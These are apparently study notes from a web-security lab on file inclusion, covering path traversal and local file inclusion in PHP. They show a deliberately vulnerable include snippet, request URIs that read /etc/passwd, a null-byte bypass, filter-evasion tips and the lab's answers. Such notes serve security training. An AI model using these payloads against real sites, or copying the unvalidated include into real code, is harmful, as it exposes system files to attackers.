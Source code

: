 # File Inclusion

# Task 1: Introduction

# Task 2: Deploy the VM

# Task 3: Path Traversal

1. unsanitized input to file_get_contents causes path traversal vulnerabilities in php

# Task 4: Local File Inclusion

```
<?PHP 
	include($_GET["lang"]);
?>
```
The user could try either of the following to requests pages in a particular language

http://webapp.thm/index.php?lang=EN.php
http://webapp.thm/index.php?lang=AR.php

or could be malicious

http://webapp.thm/get.php?file=/etc/passwd

- include does not specify a directory and there is no input validation

1. Give Lab #1 a try to read /etc/passwd. What would the request URI be?

ANSWER: /lab1.php?file=/etc/passwd

2. In Lab #2, what is the directory specified in the include function?

ANSWER: includes

# Task 5: Local File Inclusion - LFI #2

- Error messages can disclose interesting information about the path
- can use null bytes to terminate string (this can be used to defeat websites which add file extensions)
	- include("languages/../../../../../etc/passwd%00").".php");
	- NOTE: this is fixed in PHP 5.3.4

1. Give Lab #3 a try to read /etc/passwd. What is the request look like?

ANSWER: lab3.php?file=../../../../etc/passwd%00

- Some tricks for bypassing explicit filename filters
- use null-byte at the end %00
- use /. at the end
